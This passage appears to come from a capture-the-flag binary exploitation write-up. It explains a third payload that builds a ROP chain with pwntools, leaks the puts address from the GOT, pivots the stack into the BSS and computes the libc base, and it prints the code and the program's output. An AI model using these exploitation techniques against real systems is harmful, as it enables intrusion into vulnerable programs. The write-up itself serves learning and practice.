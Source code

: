 
Finally, to avoid losing control, we need to jump back to `menu`, close to where `modify` is called. This allows us to input more data into the BSS and prevents the execution of unwanted functions that could interfere with our previous pivoting.

![alt text](images/beforeModify.png)

The rop chain looks like this:
```python
 addrMain55 = e.symbols["main"] + 55
# 0x000000000000145b: pop rdi; ret;
gadgetPopRdi = 0x000000000000145b + e.address
rop = convert_case(p64(gadgetPopRdi))
rop += convert_case(p64(e.got["puts"]))
rop += convert_case(p64(addrMain55)) # puts
rop += convert_case(p64(bufferBss))  # to put inside of RBP due to pop at the end of main
rop += convert_case(p64(e.symbols["menu"] + 110)) # before modify
```

To finish this third payload we have this:
```python
payload = b"GARBAGEE" # just for alignment
payload += rop.ljust(0x48, b"N")
payload += convert_case(p64(bufferBss - 8)) # to dont mess with the pivoting (reason at then end)
payload += convert_case(p64(e.symbols["menu"] +212)) # Go directly to leave ; ret to execute the ROP chain
r.sendafter(b" 69 characters)", payload)
```

Output:
```bash
String you entered: GARBAGEE[tuuuu
Your string: garbagee[TUUUU
@\xea\xe7\xf7\xff\x7f
Input a string (max length of 69 characters):
```

Python code fraction:
```python
r.recvuntil(b"garbagee")
r.recvline()
output = r.recvline()

leakPuts = output[:-1]
leakPuts = u64(leakPuts.ljust(8, b"\x00"))
log.info(f"leakPuts: {hex(leakPuts)}")

libc.address = leakPuts - libc.symbols["puts"]
log.info(f"libc: {hex(libc.address)}")
```
